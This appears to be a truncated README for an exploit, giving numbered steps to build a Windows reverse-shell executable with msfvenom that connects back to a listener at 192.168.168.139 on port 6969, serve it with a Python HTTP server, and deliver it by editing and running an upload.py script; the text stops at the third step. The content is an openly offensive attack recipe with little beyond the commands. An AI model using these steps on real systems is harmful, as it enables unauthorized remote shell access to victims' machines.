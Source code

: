 1. make revshell exe file
   
   ```
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.168.139 LPORT=6969 -f exe > weinrev.exe
   ```
2. Run a python server on this directory
   ```
   python3 -m http.server 80
   ```
3. Edit upload.py at line 119 and run
   ```
   
